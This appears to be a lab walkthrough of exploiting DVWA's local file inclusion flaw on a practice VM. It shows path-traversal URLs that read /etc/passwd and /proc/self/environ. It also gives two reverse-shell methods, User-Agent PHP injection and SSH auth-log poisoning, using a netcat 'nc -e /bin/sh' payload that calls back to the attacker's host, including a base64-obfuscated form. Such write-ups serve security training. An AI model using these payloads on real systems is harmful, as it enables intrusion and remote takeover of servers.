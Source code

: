 ### Local File Inclusion Security-Level-Low

* This vulnerability allows an attacker to read any file on the same server.
* Also allows you to read files outside the /www/ directory.


* First the url is trying to run a file called include.php
* So im going to test if the server does infact have a file called include.php

```
http://10.0.2.5/dvwa/vulnerabilities/fi/include.php
```

* When i navigate to this url the following error is displayed.

```
Fatal error: Call to undefined function dvwaExternalLinkUrlGet() in /var/www/dvwa/vulnerabilities/fi/include.php on line 15
```

* This shows that a file called include.php is on the server.
* Now im going to try read the /etc/passwd file, which contains all ther users on the server.

* To do this im going to have to back five directories to read /etc/passwd.
* To move back a directory we can use ../ 

```
http://10.0.2.5/dvwa/vulnerabilities/fi/?page=../../../../../etc/passwd
```

* The following output is displayed showing the users on the server.

```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/bin/sh bin:x:2:2:bin:/bin:/bin/sh sys:x:3:3:sys:/dev:/bin/sh sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/bin/sh man:x:6:12:man:/var/cache/man:/bin/sh lp:x:7:7:lp:/var/spool/lpd:/bin/sh mail:x:8:8:mail:/var/mail:/bin/sh news:x:9:9:news:/var/spool/news:/bin/sh uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh proxy:x:13:13:proxy:/bin:/bin/sh www-data:x:33:33:www-data:/var/www:/bin/sh backup:x:34:34:backup:/var/backups:/bin/sh list:x:38:38:Mailing List Manager:/var/list:/bin/sh irc:x:39:39:ircd:/var/run/ircd:/bin/sh gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh nobody:x:65534:65534:nobody:/nonexistent:/bin/sh libuuid:x:100:101::/var/lib/libuuid:/bin/sh dhcp:x:101:102::/nonexistent:/bin/false syslog:x:102:103::/home/syslog:/bin/false klog:x:103:104::/home/klog:/bin/false sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin msfadmin:x:1000:1000:msfadmin,,,:/home/msfadmin:/bin/bash bind:x:105:113::/var/cache/bind:/bin/false postfix:x:106:115::/var/spool/postfix:/bin/false ftp:x:107:65534::/home/ftp:/bin/false postgres:x:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash mysql:x:109:118:MySQL Server,,,:/var/lib/mysql:/bin/false tomcat55:x:110:65534::/usr/share/tomcat5.5:/bin/false distccd:x:111:65534::/:/bin/false user:x:1001:1001:just a user,111,,:/home/user:/bin/bash service:x:1002:1002:,,,:/home/service:/bin/bash telnetd:x:112:120::/nonexistent:/bin/false proftpd:x:113:65534::/var/run/proftpd:/bin/false statd:x:114:65534::/var/lib/nfs:/bin/false snmp:x:115:65534::/var/lib/snmp:/bin/false
Warning: Cannot modify header information - headers already sent by (output started at /etc/passwd:12) in /var/www/dvwa/dvwa/includes/dvwaPage.inc.php on line 324

Warning: Cannot modify header information - headers already sent by (output started at /etc/passwd:12) in /var/www/dvwa/dvwa/includes/dvwaPage.inc.php on line 325

Warning: Cannot modify header information - headers already sent by (output started at /etc/passwd:12) in /var/www/dvwa/dvwa/includes/dvwaPage.inc.php on line 326
```


---

### Local File Inclusion Gaining Shell Access Method-1

* One way to get shell access from local file inclusion vulnerabilites is by executed code on files you can read.
* These files on apache web server are usually;

1. /proc/self/environ
2. /var/log/auth.log
3. /var/log/apache2/access.log

* So im going to try and execute code in the /proc/self/environ
* This file contains a array of variables for the current environment.

* First i'm going to try to navigate to this file.

```
http://10.0.2.5/dvwa/vulnerabilities/fi/?page=../../../../../proc/self/environ
```

* The output is the following

```
REDIRECT_HANDLER=php5-cgiREDIRECT_STATUS=200HTTP_USER_AGENT=Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0 Paros/3.2.13HTTP_ACCEPT=text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8HTTP_ACCEPT_LANGUAGE=en-US,en;q=0.5HTTP_COOKIE=security=low; PHPSESSID=f06d8840b5ab8989da75b5a92751bb56HTTP_DNT=1HTTP_CONNECTION=keep-aliveHTTP_UPGRADE_INSECURE_REQUESTS=1HTTP_HOST=10.0.2.5PATH=/usr/local/bin:/usr/bin:/binSERVER_SIGNATURE=
Apache/2.2.8 (Ubuntu) DAV/2 Server at 10.0.2.5 Port 80
SERVER_SOFTWARE=Apache/2.2.8 (Ubuntu) DAV/2SERVER_NAME=10.0.2.5SERVER_ADDR=10.0.2.5SERVER_PORT=80REMOTE_ADDR=10.0.2.15DOCUMENT_ROOT=/var/www/SERVER_ADMIN=webmaster@localhostSCRIPT_FILENAME=/usr/lib/cgi-bin/phpREMOTE_PORT=54215REDIRECT_QUERY_STRING=page=../../../../../proc/self/environREDIRECT_URL=/dvwa/vulnerabilities/fi/index.phpGATEWAY_INTERFACE=CGI/1.1SERVER_PROTOCOL=HTTP/1.1REQUEST_METHOD=GETQUERY_STRING=page=../../../../../proc/self/environREQUEST_URI=/dvwa/vulnerabilities/fi/?page=../../../../../proc/self/environSCRIPT_NAME=/cgi-bin/phpPATH_INFO=/dvwa/vulnerabilities/fi/index.phpPATH_TRANSLATED=/var/www/dvwa/vulnerabilities/fi/index.php
Warning: Cannot modify header information - headers already sent by (output started at /proc/13602/environ:1) in /var/www/dvwa/dvwa/includes/dvwaPage.inc.php on line 324

Warning: Cannot modify header information - headers already sent by (output started at /proc/13602/environ:1) in /var/www/dvwa/dvwa/includes/dvwaPage.inc.php on line 325

Warning: Cannot modify header information - headers already sent by (output started at /proc/13602/environ:1) in /var/www/dvwa/dvwa/includes/dvwaPage.inc.php on line 326
```

* We can see from the output the user_agent of the my browser is posted. 
* What we can do is run code where the user_agent by intercept the request with a web proxy.
* As the user_agent field is sent from the client.

* I'm going to change the user_agent to <?phpinfo();?>. To see if it runs php code.

* Now you should see the php info page being display on the browser.

```
REDIRECT_HANDLER=php5-cgiREDIRECT_STATUS=200HTTP_USER_AGENT=
PHP Logo
PHP Version 5.2.4-2ubuntu5.10
```

* Now we can execute any php code on the server through the user_agent.
* I'm going to be using passthru function from php to execute a netcat shell.

* I'm going to use the following command to execute my shell.

```
<?passthru("nc -e /bin/sh 10.0.2.15 4444");?>
```

* This command will connect back to my local machine on port 4444 in which i will recieve a reverse shell.
* First let m setup my netcat listener to listen on port 4444.

```
nc -vv  -l -p 4444
```

* Now we intercept the request and enter in the passthru function to execute our shell.

* We recieve a netcat reverse shell.

```
root@kali:~# nc -vv -l -p 4444
listening on [any] 4444 ...
10.0.2.5: inverse host lookup failed: Unknown host
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.5] 40600
ls -la
total 24
drwxr-xr-x  4 www-data www-data 4096 May 20  2012 .
drwxr-xr-x 11 www-data www-data 4096 May 20  2012 ..
drwxr-xr-x  2 www-data www-data 4096 May 20  2012 help
-rw-r--r--  1 www-data www-data  488 Aug 26  2010 include.php
-rw-r--r--  1 www-data www-data  818 Mar 16  2010 index.php
drwxr-xr-x  2 www-data www-data 4096 May 20  2012 source
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


---

### Local File Inclusion Gaining Shell Access Method-2

* With the previous method we executed code on the /proc/self/environ
* In this section i'm going execute code in the apache log files;

1. /var/log/auth.log
2. /var/log/apache2/access.log

* The two files above is readable to the user.
* First let me navigate to the /var/log/auth.log


```
http://10.0.2.5/dvwa/vulnerabilities/fi/?page=../../../../../var/log/auth.log
```

* You should now see log files from apache web server.
* This file reads login attempts.
* What we can do here is login into ssh, but we'll be using php code as the file will read it and execute this code.

* So first setup a netcat listener.

```
nc -vv -l -p 4444
```

* Now we login into ssh using passthru function from php to execute our reverse shell.

```
ssh "<?passthru("nc -e /bin/sh 10.0.2.15 4444");?>"@10.0.2.5
```

* So what i did here was login into ssh with the user this being the php code to execute a reverse shell followed by the ip address of the server.
* Now we need to encode the spaces between the shell as the server will send back an error.
* So im to avoid all the special characters.

```
root@kali:~# echo "nc -e /bin/sh 10.0.2.15 4444"|base64
bmMgLWUgL2Jpbi9zaCAxMC4wLjIuMTUgNDQ0NAo=
```

* So now that i have encoded the nc.
* Now i paste it into the passthru function.

```
ssh "<?passthru('bmMgLWUgL2Jpbi9zaCAxMC4wLjIuMTUgNDQ0NAo=');?>"@10.0.2.5
```

* Now we need php to decode this string and then run the passthru function.
* I'm going to use the base64 decode function from php.

```
ssh "<?passthru(base64_decode('bmMgLWUgL2Jpbi9zaCAxMC4wLjIuMTUgNDQ0NAo='));?>"@10.0.2.5
```

* Now we recieve a reverse shell.

```
oot@kali:~# nc -vv -l -p 4444
listening on [any] 4444 ...
10.0.2.5: inverse host lookup failed: Unknown host
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.5] 34577
ls -la
total 24
drwxr-xr-x  4 www-data www-data 4096 May 20  2012 .
drwxr-xr-x 11 www-data www-data 4096 May 20  2012 ..
drwxr-xr-x  2 www-data www-data 4096 May 20  2012 help
-rw-r--r--  1 www-data www-data  488 Aug 26  2010 include.php
-rw-r--r--  1 www-data www-data  818 Mar 16  2010 index.php
drwxr-xr-x  2 www-data www-data 4096 May 20  2012 source
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


